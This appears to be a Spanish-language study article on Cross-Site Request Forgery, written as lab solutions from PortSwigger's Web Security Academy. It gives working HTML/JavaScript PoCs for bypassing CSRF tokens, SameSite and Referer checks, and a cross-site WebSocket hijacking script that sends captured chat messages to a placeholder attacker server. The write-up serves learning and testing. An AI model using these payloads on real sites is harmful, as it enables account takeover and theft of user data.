

## Introducción

En este articulo se va a explicar a modo resumen en que consiste la vulnerabilidad web Cross Site Request Forguery (CSRF) y algunas técnicas de como explotarla en diferentes entornos.

Para la redacción de este articulo me he basado en los laboratorios de [portswigger](https://portswigger.net/) que he realizado para la preparación de su certificación BSCP.

## Definición

Esta vulnerabilidad consiste en llevar a cabo acciones por parte de un usuario sin su consentimiento ni conocimiento como puede ser un cambio de correo dentro de una web a través de un link malicioso generado por el atacante, aprovechándose de una mala configuración de la web vulnerable, que enviara al usuario.

## Condiciones que se deben cumplir

Para que sea posible la explotación se deben cumplir tres claves:

1. Debe haber una acción que el atacante induzca al usuario a realizar, como por ejemplo un cambio de contraseña o de correo.
2. Manejo de sesiones basado en cookies: solo debe haber cookies de sesión para identificar el usuario y la acción debe de llevarse a cabo a través de una o mas peticiones http, tampoco debe haber mecanismos de seguimiento de sesiones o validaciones de peticiones.
3. No debe haber parámetros impredecibles por ejemplo en un cambio de contraseña no debe de estar el campo de contraseña actual ya que no deberíamos de conocerla

El siguiente código es una POC en el que se realiza un cambio de correo en una web sin ningún tipo de restricción.

Se debe obtener la ruta en el que se realiza la acción. (En este ejemplo es **/my-account/change-email**) y cambiar los parámetros que se envían en la petición por los que el atacante quiera cambiar.

```bash
<html>
    <body>
        <form action="https://URL-VULNERABLE/my-account/change-email" method="POST" >
            <input type="hidden" name="email" value="antu97@test.com" />
        </form>
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

Una forma sencilla de generar un exploit CSRF es utilizando la opción de ‘CSRF PoC generator’ de Burpsuite Pro.

## Medidas comunes contra CSRF

Las medidas mas comunes para defenderse contra los ataques CSRF son:

- **CSRF tokens:** Es una cadena de caracteres alfanuméricos cuyo valor es secreto, único e impredecible la cual es generada por el lado del servidor y enviada al cliente. Cuando un cliente realiza acciones sensibles como el envió de un formulario, el cliente debe incluir un CSRF token valido en la petición de lo contrario el servidor rechazara la petición y la acción no se llevara a cabo.
    
    Si esta bien implementado un CSRF token es una buena medida para defenderse de los ataques CSRF ya que hace muy difícil de predecir por parte del atacante el valor de este para incluirlo en la petición maliciosa.
    
- **SameSite cookies:** Es un atributo que poseen las cookies que indican al explorador si la cookie se debe utilizar para el contexto entre sitios o solo para el contexto del mismo sitio.
    
    Las peticiones en acciones sensibles dentro de una web suelen ir con una cookie de autenticación de sesión, si esta cookie tiene configurada un SameSite apropiado evitara que un atacante realice dicha acción entre sitios. Desde el 2021 por defecto el navegador Chrome fuerza a que las cookies tengan el valor Lax en el atributo SameSite.
    
- **Referer-based validation:** Algunas aplicaciones web utilizan  la cabecera Referer para defenderse contra ataques CSRF, esta cabecera se utiliza para que la petición que se realiza provenga de un origen determinado normalmente de aplicaciones dentro de la propio dominio.
    
    Esta medida es menos efectiva que el CSRF token.
    

## Métodos para eludir el CSRF token

### La validación del CSRF Token depende del método de la petición

Algunas aplicaciones solo validan los CSRF-token en peticiones POST y no en las peticiones GET

Cambiando el método a GET y añadiendo los parámetros en la url se puede eludir la validación del csrf Token

Laboratorio  [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method).

### La validación de CSRF Token depende de si esta presente

Algunas aplicaciones solo validan el csrf token cuando esta presente si lo eliminamos completamente puede que no se haga dicha validación, para comprobarlo basta con realizar la petición sin el parámetro del token y observar si se realiza con éxito.

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present).

### El CSRF token no esta vinculado a la sesión

Se puede dar el caso que el token no este vinculado a la sesión y exista una lista de tokens validos, por lo que se puede utilizar el token de la sesión del atacante para explotar la vulnerabilidad.

Una PoC podría ser la siguiente:

```bash
<html>
    <body>
        <form action="https://URL-Vulnerable/my-account/change-email" method="POST" >
            <input type="hidden" name="email" value="antu97@test.com" />
            <input type="hidden" name="csrf" value="Token del atacante" />
        </form>
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

Laboratorio  [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session).

### El CSRF Token esta vinculado a una cookie distinta a la de sesión

```jsx
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=test@test.com
```

Se puede dar el caso de que el token no esta ligado a la cookie que trackea la sesión y este ligada a otra(csrfkey). Para testear primero debemos probar:

4.1 Comprobar que la cookie(csrfkey) no esta ligado al token

- Introducir un token no valido
- introducir un token de otro usuario

4.2  Introducir una cookie(csrf Key) y token de otro usuario

Si este ultimo se cumple para explotar la vulnerabilidad debemos inyectar la cookie en la sesión del usuario en este ejemplo a través del parámetro de búsqueda de la web ya que se ve reflejado en la respuesta.

En esta PoC se utiliza el csrf y csrfkey del atacante para cambiar la del usuario

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://Url-Vulnerable/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test&#46;com" />
      <input type="hidden" name="csrf" value="CSRF-ATACANTE" />
    </form>
     
  </body>
</html>

```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie).

### CSRF token duplicado en la cookie.

Se puede dar el caso que el token aparezca duplicado en la cookie y en el parámetro de la petición, cuando la petición se envía, la validación que realiza es que tanto el token de la petición y la cookie sean el mismo, para testear esta vulnerabilidad se debe cambiar el valor del token y la cookie por otro pero que sea el mismo y realizar la petición, si se realiza con éxito es explotable.

Hay que encontrar una vía de inyectar la cookie en la sesión del cliente, en este ejemplo se inyecta a través del parámetro de búsqueda.



Poc:

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://URL-VULNERABLE/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test.com" />
      <input type="hidden" name="csrf" value="fake" />
     <input type="submit" value="Submit request" />
    </form>
      
   
  </body>
</html>

```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie).

## Samesite cookie

Restricciones SameSite:

- Lax
- Strict
- None

Ninguna de estas restricciones garantiza total inmunidad.

Si no hay una restricción asociada a la cookie chrome utiliza Lax por defecto, lo que quiere decir que solo se enviara la cookie si cumple con un criterio.

### Strict

El sitio de la solicitud debe coincidir con el sitio que se muestra actualmente en la barra URL del navegador si no, la cookie no se va a enviar lo que quiere decir que la cookie no se envía entre sitios diferentes.

### Lax

Para que se envíe la cookie la solicitud debe cumplir los siguiente

- Utiliza método GET
- La solicitud se debe realizar por parte de un usuario(por ejemplo si la realiza un bot no se envia) como al hacer clic en un link

### None

La cookie se envía en todas las solicitudes que se hagan.

Si la cookie es configurada con el valor None se le debe añadir también el valor secure para que solo se envíe en conexiones https.

## Lax bypass

Provocando una petición Get desde el navegador de la victima se puede llevar a cabo un csrf

```jsx
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Incluso si no se acepta el método GET algunos frameworks permiten modificar el método de la siguiente manera con el valor(_method)

```jsx
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

### Solución laboratorio Bypassing SameSite Lax restrictions using GET requests

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override).

```jsx
<html>
    <body>
            <form action="https://URL-VULNERABLE/my-account/change-email" method="GET" >
            <input type="hidden" name="_method" value="POST">
            <input type="hidden" name="email" value="antu97@test.com" />
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

### Solución al laboratorio con refresco de cookie

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh).

Si un sitio web no incluye un atributo SameSite al configurar una cookie, Chrome aplica automáticamente restricciones Lax de forma predeterminada. Sin embargo, para evitar romper los mecanismos de inicio de sesión único (SSO), en realidad no aplica estas restricciones durante los primeros 120 segundos en las solicitudes POST de nivel superior. Como resultado, hay una ventana de dos minutos en la que los usuarios pueden ser susceptibles a ataques entre sitios.

Para eludir la restricción de la cookie con samesite lax nos aprovechamos de que los primeros 120 segundos se permiten peticiones POST.

Para evitar el bloqueo por defecto del navegador del popup al ejecutar windows.open utilizamos la funcion window.onclick.

A los 5 segundos de refrescar la sesión con window.open desde la url indicada se lanzara la petición post con el cambio de usuario.

```jsx
<form method="POST" action="https://URL-VULNERABLE/my-account/change-email">
    <input type="hidden" name="email" value="antu97@test.com">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://URL-VULNERABLE/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

## Strict bypass

Laboratorio [aquí.](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

Se puede eludir esta cookie si existe un gadget en la web que genere una solicitud secundaria en el mismo sitio.

En este caso al realizar un post se hace un redireccionamiento del momento en que se envía el post al blog con un parámetro postid, este parámetro permite inyectar valores al directorio por lo que pasando el directorio vulnerable del change email con valores de correo y submit se puede realizar el ataque, es posible ya que la petición también se puede realizar con GET

```jsx
<script>
 document.location = "https://URL-VULNERABLE/post/comment/confirmation?postId=../my-account/change-email?email=antu%40web-security-academy.net%26submit=1";
</script>
```

### Same site Sibling domain(CSWSH)

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

Script html utilizado.

```jsx
<script>
    var ws = new WebSocket('wss://0ac60050047f30558226d44700ec00dc.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        var message = event.data;
        fetch('https://SERVER-ATACANTE/exploit?message=' + btoa(message));
    };
</script>
```

URLecodeado el script anterior y utilizando un origen permitido por la web podemos llevar a cabo la explotación de un CSRF a través de XSS en un login.

```jsx
<script>
document.location = 'https://URL-VULNERABLE-XSS/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%63%36%30%30%35%30%30%34%37%66%33%30%35%35%38%32%32%36%64%34%34%37%30%30%65%63%30%30%64%63%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%65%6e%74%2e%64%61%74%61%3b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%33%30%30%38%35%30%34%61%66%33%30%37%65%38%32%38%62%64%33%61%61%30%31%63%30%30%30%64%64%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%27%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=test'
</script>
```

Si queréis profundizar mas en este tipo de vulnerabilidad os recomiendo que le echéis un ojo a esta web: [https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/](https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/)

## Bypass referer header

Hay aplicaciones que validan esta cabecera cuando esta presente en la petición pero no realizan la validación si se omite por lo que se puede llegar a realizar un csrf omitiéndola.

Para comprobar si es vulnerable:

1. Cambiar dominio de referer y observar respuesta.
2. Eliminar cabecera y comprobar respuesta.

```jsx
<meta name="referrer" content="never">
```

```jsx
<html>
    <body>
        <form action="https://URL-VULNERABLE/my-account/change-email" method="POST" >
            <input type="hidden" name="email" value="antu97@test.com" />
            <meta name="referrer" content="never">
        </form>
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

Laboratorio [aqu](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)í.

Algunas aplicaciones solo validan que el valor de la cabecera contenga el dominio por lo que un atacante puede utilizar dicho dominio como subdominio del dominio del atacante como en el ejemplo siguiente:

```jsx
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Otra forma de validación utilizadas por algunas aplicaciones es que el valor de la cabecera contenga el propio dominio por lo que se puede añadir el dominio del atacante a este.

```jsx
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://ID-LABORATORIO.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?ID-LABORATPORIO.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken).
